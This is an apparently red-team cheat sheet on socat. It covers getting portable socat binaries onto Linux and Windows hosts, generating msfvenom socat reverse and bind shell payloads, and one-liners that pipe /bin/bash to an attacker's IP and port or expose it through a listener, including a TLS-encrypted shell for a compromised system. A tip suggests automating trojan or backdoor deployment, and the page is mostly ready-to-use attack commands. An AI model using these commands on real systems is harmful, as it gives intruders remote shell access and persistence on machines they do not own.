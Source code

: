 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - cross-platform
  - socat
---
```

# Socat

## 01 - Setup

> [!TIP]
> You can make an automated script to deploy a trojan horse or backdoor during the initial access and maintaining access. You can check for left over packages even if it's not installed in the system.

### 1.1 - Package Manager

#### 1.1.1 - Ubuntu/Debian Distros

Download the `.deb` file and extract it.

```
$ apt download socat

$ dpkg -x socat_*.deb work
```

Then you can just execute the program as it was portable.

```
$ work/usr/bin/socat -V
```

#### 1.1.2 - Red Hat Distros

Create a temporary folder and download the `.rpm` file.

```
$ mkdir payload && cd payload/

$ dnf download socat
```

Extract the `.rpm` package.

```
$ rpm2cpio socat-*.x86_64.rpm | cpio -idmv

$ tar xf socat-*.x86_64.rpm
```

Then you can just execute the program as it was portable.

```
$ usr/bin/socat -V
```

#### 1.1.3 - Arch Linux Distros

You can just download the `.tar.zst` file and extract it.

```
$ VERSION=$(pacman -Si socat | grep 'Version' | awk '{print $3}')

URL="https://archive.archlinux.org/packages/s/socat/socat-${VERSION}-x86_64.pkg.tar.zst"

wget $URL

tar --zstd -xf socat-*.pkg.tar.zst
```

Then you can just execute the program as it was portable.

```
$ usr/bin/socat -V
```

### 1.2 - Download Pre-compiled Binary

#### 1.2.1 - Linux

```
$ wget --no-hsts -qO socat https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.bin && chmod 755 socat

$ curl -o socat https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.bin && chmod 755 socat
```

#### 1.2.2 - Windows

Download the pre-compiled binary in command prompt.

```
C:\> certutil -urlcache -split -f https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe socat.exe

C:\> curl -o socat.exe https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe
```

Download the pre-compiled binary in PowerShell.

```
PS C:\> Invoke-WebRequest https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe -OutFile socat.exe
```

### 1.3 - Compile

#### 1.3.1 - Linux

```
$ git clone https://github.com/3ndG4me/socat.git && \
cd socat && ./configure && make && make install
```

#### 1.3.2 - Windows

TODO: Fill this info

## 03 - Generate a payload via `msfvenom`

### 3.1 - Reverse Shells

#### 3.1.1 - TCP Method

```
$ msfvenom -p cmd/unix/reverse_socat_tcp lhost=<IP> lport=<PORT>
```

#### 3.1.2 - UDP Method

```
$ msfvenom -p cmd/unix/reverse_socat_udp lhost=<IP> lport=<PORT>
```

#### 3.1.3 - SCTP Method

```
$ msfvenom -p cmd/unix/reverse_socat_sctp lhost=<IP> lport=<PORT>
```

### 3.2 - Bind Shells

#### 3.2.1 - UDP Method

```
$ msfvenom -p cmd/unix/bind_socat_udp lport=<PORT>
```

#### 3.2.2 - SCTP Method

```
$ msfvenom -p cmd/unix/bind_socat_sctp lport=<PORT>
```

## 03 - One-liners

### 3.1 - Reverse Shells

#### 3.1.1 - TCP Method

```
$ socat TCP4:<attacker_IP>:<attacker_PORT> EXEC:/bin/bash

$ socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:<attacker_IP>:<attacker_PORT>
```

### 3.2 - Bind Shells

#### 3.2.1 - TCP Method

```
$ socat tcp-listen:<PORT>,reuseaddr,fork exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane
```

#### 3.2.2 - UDP Method

TODO: Generate an msfvenom for UDP bind shell socat

```
$ socat
```

#### 3.2.3 - TLS Method

Note: Only generated TLS certificates in a compromised system.

```
$ openssl req -newkey rsa:2048 -nodes -keyout private.key -x509 -days 362 -out certificate.crt

$ cat private.key certificate.crt > key.pem

$ socat OPENSSL-LISTEN:<PORT>,cert=key.pem,verify=0,fork EXEC:/bin/bash
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Linux/Host/0xE - Discover Programs/Manual/Living off the Land|Enumeration and Discovery: Discover Programs]]

- [[DEB|File Transfer and Data Exfiltration: Linux Package Manager DEB]]

- [[RPM|File Transfer and Data Exfiltration: Linux Package Manager RPM]]

- [[AUR|File Transfer and Data Exfiltration: Linux Package Manager AUR]]

- [[PFL|File Transfer and Data Exfiltration: Linux Package Manager PFL]]

### Source Repositories

- [3ndG4me: Socat Source Repository](https://github.com/3ndG4me/socat)

- [runsisi: Socat Source Repository](https://github.com/runsisi/socat)

### GTFOBins

- [GTFOBins: Socat](https://gtfobins.github.io/gtfobins/socat/)

### Internal All The Things

- [InternalAllTheThings: Network Pivoting Techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

- [Artkond Pivoting Guide](https://artkond.com/2017/03/23/pivoting-guide/)

- [SevenLayers: Socat Reverse Shell Relay](https://sevenlayers.com/index.php/blog/500-socat-reverse-shell-relay)

- [CyberSec Wikimandine: Socat](https://amandinegh.gitbook.io/cyberadventure/internal/pivoting-tunneling-and-port-forwarding/socat)